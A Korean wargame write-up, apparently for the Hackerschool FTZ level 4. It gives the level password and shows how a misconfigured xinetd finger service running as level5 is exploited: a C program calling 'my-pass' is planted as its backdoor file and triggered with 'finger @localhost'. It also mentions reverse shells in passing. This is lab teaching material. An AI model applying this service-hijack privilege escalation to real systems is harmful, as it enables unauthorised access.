





# level 4

* id : `level4`
* pw : `suck my brain`



우선 저 경로로 가보자
```
cd /etc/xinetd.d
ls -al
```


딱봐도 백도어가 있다.


```python
service finger  # 서비스 명
{
        disable = no  # 사용 유무
        flags           = REUSE # 해당 포트 재사용 여부
        socket_type     = stream # 소켓 타입
        wait            = no # 서비스가 연결된 상태에서 다른 요청 들어올 시 기다리는지 여부
        user            = level5 # 실행시 사용되는 유저
        server          = /home/level4/tmp/backdoor # 실행될 파일
        log_on_failure  += USERID # 로그 저장위치
}

```
`/home/level4/tmp/backdoor` 파일을 실행하는것을 볼수 있다.



보시다시피 텅 비어있다. 여기에 bash쉘을 실행하도록 하는 코드를 짤려고 했으나

service로 돌아가면 interaction 이 불가능하므로 실패했다

[netcat, telnet 등을 이용한 reverse shell 등을 이용하면 가능하다고 한다.](https://geundi.tistory.com/59)

그렇기 때문에 우회적으로 패스워드를 출력하는 `my-pass`를 이용한다.

```
vim back.c
```


```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    system("my-pass");
}
```

```
gcc back.c
mv a.out backdoor
finger @localhost
```

참고로 이때 `finger`가 아닌 `finger @localhost`를 하는 이유는

뒤에 인자가 들어와야 프로그램이 실행되기 때문이다.

궃이 `@localhost` 가 아니라 `@127.0.0.1` 도 된다.


